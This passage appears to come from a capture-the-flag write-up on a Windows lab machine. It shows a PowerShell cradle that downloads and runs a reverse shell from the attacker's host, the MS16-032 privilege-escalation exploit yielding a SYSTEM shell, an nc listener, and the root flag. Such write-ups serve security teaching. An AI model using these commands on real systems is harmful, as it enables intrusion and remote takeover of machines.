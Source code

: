 I’ll download a copy of that, and add a line at the end to call it with a command to download and execute my reverse shell:

```
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1')"
```

From the 64-bit shell, (and with both a Python web server serving `rev.ps1` and `nc` listening on 443 to get the shell), I’ll use the same PowerShell cradle to download and execute the exploit:

```
PS C:\Users\kostas\Desktop> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Invoke-MS16032.ps1')
     __ __ ___ ___   ___     ___ ___ ___ 
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|
                                        
                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!
```

There’s a request right away for `Invoke-MS16032.ps1`. Once that last message pops, there’s another request for `rev.ps1`, and then a shell at `nc`:

```
oxdf@parrot$ sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49244
whoami
nt authority\system
PS C:\Users\kostas\Desktop>
```

And I can grab `root.txt`:

```
PS C:\users\administrator\desktop> type root.txt
51ed1b36553c8461f4552c2e92b3eeed
```
